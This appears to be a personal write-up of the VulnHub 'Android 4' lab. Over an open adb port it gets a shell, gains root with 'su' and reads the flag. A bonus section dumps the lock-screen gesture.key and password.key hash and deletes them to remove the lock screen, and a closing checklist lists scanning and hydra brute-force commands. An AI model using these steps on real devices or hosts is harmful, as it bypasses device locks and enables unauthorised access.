update-initramfs: Generating /boot/initrd.img-6.11.2-amd64
VirtualBox Guest Additions: Starting.
VirtualBox Guest Additions: Setting up modules
VirtualBox Guest Additions: Building the VirtualBox Guest Additions kernel 
modules.  This may take a while.
VirtualBox Guest Additions: To build modules for other installed kernels, run
VirtualBox Guest Additions:   /sbin/rcvboxadd quicksetup <version>
VirtualBox Guest Additions: or
VirtualBox Guest Additions:   /sbin/rcvboxadd quicksetup all
VirtualBox Guest Additions: Building the modules for kernel 6.16.8+kali-amd64.
update-initramfs: Generating /boot/initrd.img-6.16.8+kali-amd64
VirtualBox Guest Additions: Running kernel modules will not be replaced until 
the system is restarted or 'rcvboxadd reload' triggered
VirtualBox Guest Additions: reloading kernel modules and services
VirtualBox Guest Additions: cannot reload kernel modules: one or more module(s) 
is still in use
VirtualBox Guest Additions: kernel modules and services were not reloaded
The log file /var/log/vboxadd-setup.log may contain further information.


# reboot, so kernel can be updated
YES! I CAN FINALLY COPY AND PASTE between machines AGAIN!!!

```


### *"Everything is figure-out-able if you’re willing to look stupid"*

---
---
# Foothold 🦶


```bash
# and now finally! after a many hours of troubleshooting, we can now move forward with this challenge, now that ADB (Android Data-Bridge) has been installed, kali linux is updated, VirtualBox + Extentions are updated, copy paste between host and machine is working again as before!

┌──(kali㉿kali)-[~]
└─$ adb --help
Android Debug Bridge version 1.0.41
Version 34.0.5-debian
Installed as /usr/lib/android-sdk/platform-tools/adb
Running on Linux 6.16.8+kali-amd64 (x86_64)

global options:
 -a                       listen on all network interfaces, not just localhost
 -d                       use USB device (error if multiple devices connected)
 -e                       use TCP/IP device (error if multiple TCP/IP devices available)
 -s SERIAL                use device with given serial (overrides $ANDROID_SERIAL)
 -t ID                    use device with given transport id
 -H                       name of adb server host [default=localhost]
 -P                       port of adb server [default=5037]
 -L SOCKET                listen on given socket for adb server [default=tcp:localhost:5037]
 --one-device SERIAL|USB  only allowed with 'start-server' or 'server nodaemon', server will only connect to one USB device, specified by a serial number or USB device address.
 --exit-on-write-error    exit if stdout is closed

general commands:
 devices [-l]             list connected devices (-l for long output)
 help                     show this help message
 version                  show version num

networking:
 connect HOST[:PORT]      connect to a device via TCP/IP [default port=5555]
 disconnect [HOST[:PORT]]
     disconnect from given TCP/IP device [default port=5555], or all
 pair HOST[:PORT] [PAIRING CODE]
     pair with a device for secure TCP/IP communication
 forward --list           list all forward socket connections
 forward [--no-rebind] LOCAL REMOTE
     forward socket connection using:
       tcp:<port> (<local> may be "tcp:0" to pick any open port)
       localabstract:<unix domain socket name>
       localreserved:<unix domain socket name>
       localfilesystem:<unix domain socket name>
       dev:<character device name>
       jdwp:<process pid> (remote only)
       vsock:<CID>:<port> (remote only)
       acceptfd:<fd> (listen only)
 forward --remove LOCAL   remove specific forward socket connection
 forward --remove-all     remove all forward socket connections
 reverse --list           list all reverse socket connections from device
 reverse [--no-rebind] REMOTE LOCAL
     reverse socket connection using:
       tcp:<port> (<remote> may be "tcp:0" to pick any open port)
       localabstract:<unix domain socket name>
       localreserved:<unix domain socket name>
       localfilesystem:<unix domain socket name>
 reverse --remove REMOTE  remove specific reverse socket connection
 reverse --remove-all     remove all reverse socket connections from device
 mdns check               check if mdns discovery is available
 mdns services            list all discovered services

file transfer:
 push [--sync] [-z ALGORITHM] [-Z] LOCAL... REMOTE
     copy local files/directories to device
     --sync: only push files that are newer on the host than the device
     -n: dry run: push files to device without storing to the filesystem
     -z: enable compression with a specified algorithm (any/none/brotli/lz4/zstd)
     -Z: disable compression
 pull [-a] [-z ALGORITHM] [-Z] REMOTE... LOCAL
     copy files/dirs from device
     -a: preserve file timestamp and mode
     -z: enable compression with a specified algorithm (any/none/brotli/lz4/zstd)
     -Z: disable compression
 sync [-l] [-z ALGORITHM] [-Z] [all|data|odm|oem|product|system|system_ext|vendor]
     sync a local build from $ANDROID_PRODUCT_OUT to the device (default all)
     -n: dry run: push files to device without storing to the filesystem
     -l: list files that would be copied, but don't copy them
     -z: enable compression with a specified algorithm (any/none/brotli/lz4/zstd)
     -Z: disable compression

shell:
 shell [-e ESCAPE] [-n] [-Tt] [-x] [COMMAND...]
     run remote shell command (interactive shell if no command given)
     -e: choose escape character, or "none"; default '~'
     -n: don't read from stdin
     -T: disable pty allocation
     -t: allocate a pty if on a tty (-tt: force pty allocation)
     -x: disable remote exit codes and stdout/stderr separation
 emu COMMAND              run emulator console command

app installation (see also `adb shell cmd package help`):
 install [-lrtsdg] [--instant] PACKAGE
     push a single package to the device and install it
 install-multiple [-lrtsdpg] [--instant] PACKAGE...
     push multiple APKs to the device for a single package and install them
 install-multi-package [-lrtsdpg] [--instant] PACKAGE...
     push one or more packages to the device and install them atomically
     -r: replace existing application
     -t: allow test packages
     -d: allow version code downgrade (debuggable packages only)
     -p: partial application install (install-multiple only)
     -g: grant all runtime permissions
     --abi ABI: override platform's default ABI
     --instant: cause the app to be installed as an ephemeral install app
     --no-streaming: always push APK to device and invoke Package Manager as separate steps
     --streaming: force streaming APK directly into Package Manager
     --fastdeploy: use fast deploy
     --no-fastdeploy: prevent use of fast deploy
     --force-agent: force update of deployment agent when using fast deploy
     --date-check-agent: update deployment agent when local version is newer and using fast deploy
     --version-check-agent: update deployment agent when local version has different version code and using fast deploy
     --local-agent: locate agent files from local source build (instead of SDK location)
     (See also `adb shell pm help` for more options.)
 uninstall [-k] PACKAGE
     remove this app package from the device
     '-k': keep the data and cache directories

debugging:
 bugreport [PATH]
     write bugreport to given PATH [default=bugreport.zip];
     if PATH is a directory, the bug report is saved in that directory.
     devices that don't support zipped bug reports output to stdout.
 jdwp                     list pids of processes hosting a JDWP transport
 logcat                   show device log (logcat --help for more)

security:
 disable-verity           disable dm-verity checking on userdebug builds
 enable-verity            re-enable dm-verity checking on userdebug builds
 keygen FILE
     generate adb public/private key; private key stored in FILE,

scripting:
 wait-for[-TRANSPORT]-STATE...
     wait for device to be in a given state
     STATE: device, recovery, rescue, sideload, bootloader, or disconnect
     TRANSPORT: usb, local, or any [default=any]
 get-state                print offline | bootloader | device
 get-serialno             print <serial-number>
 get-devpath              print <device-path>
 remount [-R]
      remount partitions read-write. if a reboot is required, -R will
      will automatically reboot the device.
 reboot [bootloader|recovery|sideload|sideload-auto-reboot]
     reboot the device; defaults to booting system image but
     supports bootloader and recovery too. sideload reboots
     into recovery and automatically starts sideload mode,
     sideload-auto-reboot is the same but reboots after sideloading.
 sideload OTAPACKAGE      sideload the given full OTA package
 root                     restart adbd with root permissions
 unroot                   restart adbd without root permissions
 usb                      restart adbd listening on USB
 tcpip PORT               restart adbd listening on TCP on PORT

internal debugging:
 start-server             ensure that there is a server running
 kill-server              kill the server if it is running
 reconnect                kick connection from host side to force reconnect
 reconnect device         kick connection from device side to force reconnect
 reconnect offline        reset offline/unauthorized devices to force reconnect

usb:
 attach                   attach a detached USB device
 detach                   detach from a USB device to allow use by other processes
environment variables:
 $ADB_TRACE
     comma/space separated list of debug info to log:
     all,adb,sockets,packets,rwx,usb,sync,sysdeps,transport,jdwp
 $ADB_VENDOR_KEYS         colon-separated list of keys (files or directories)
 $ANDROID_SERIAL          serial number to connect to (see -s)
 $ANDROID_LOG_TAGS        tags to be used by logcat (see logcat --help)
 $ADB_LOCAL_TRANSPORT_MAX_PORT max emulator scan port (default 5585, 16 emus)
 $ADB_MDNS_AUTO_CONNECT   comma-separated list of mdns services to allow auto-connect (default adb-tls-connect)

Online documentation: https://android.googlesource.com/platform/packages/modules/adb/+/refs/heads/master/docs/user/adb.1.md

```


```bash
# Alright let's do this!
# We can connect with ADB by using the IP of the target machine, pretty much like SSH
# adb connect 192.168.56.36:5555

┌──(kali㉿kali)-[~]
└─$ adb connect 192.168.56.36:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 192.168.56.36:5555
                                                                                                                               
# Confirms that we are attached to the device
┌──(kali㉿kali)-[~]
└─$ adb devices                   
List of devices attached
192.168.56.36:5555      device

# To use shell commands
┌──(kali㉿kali)-[~]
└─$ adb shell  
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ 

```


---
---

# Privilege Escalation

```bash
# This machine is pretty basic, we can get root access just by using the 'su' command
┌──(kali㉿kali)-[~]
└─$ adb shell  
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb)net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ # cd /data/root
uid=0(root) gid=0(root)@x86:/data/root # ls
flag.txt
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
ANDROID{u_GOT_root_buddy}
uid=0(root) gid=0(root)@x86:/data/root #
```




---
---

# BONUS  - Remove lock screen and see the password hash

```bash
# The keys are stored in:
# gesture.key
# password.key
2|uid=0(root) gid=0(root)@x86:/system # cd /data/system
uid=0(root) gid=0(root)@x86:/data/system # ls
appops.xml
batterystats.bin
called_pre_boots.dat
device_policies.xml
dropbox
entropy.dat
framework_atlas.config
gesture.key
ifw
inputmethod
locksettings.db
locksettings.db-shm
locksettings.db-wal
ndebugsocket
netstats
packages.list
packages.xml
password.key
procstats
registered_services
shared_prefs
sync
uiderrors.txt
usagestats
users
uid=0(root) gid=0(root)@x86:/data/system # cat gesture.key
2U���`▒���      uid=0(root) gid=0(root)@x86:/data/system # cat password.key
68683BEA625263C8F04CBBC88D13233FBD2B6B875C707BC04B48AD1AD1733F739969F9D7uid=0(root) gid=0(root)@x86:/data/system #

# You can remove the files with 
rm *.key
# then reboot
reboot
```

### You can remove the files with `rm *.key` then reboot afterwards. to remove the password screen.


---
---

# VulnHub Pentest Notes - [Android 4]  
🔍 **Target IP:** `192.168.56.36`  
🖥 **OS:** Linux/Android 4  
📅 **Date:** 2025-11-02  

---
## Resources & References  
📌 [VulnHub Link](https://www.vulnhub.com/entry/android4-1,233/)  
📌 [YouTube Walkthrough (if available)](https://www.youtube.com/watch?v=Bze_Xprx9EE)  

---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
	- [ ] whatweb or Wappalyzer
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh 🫛
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

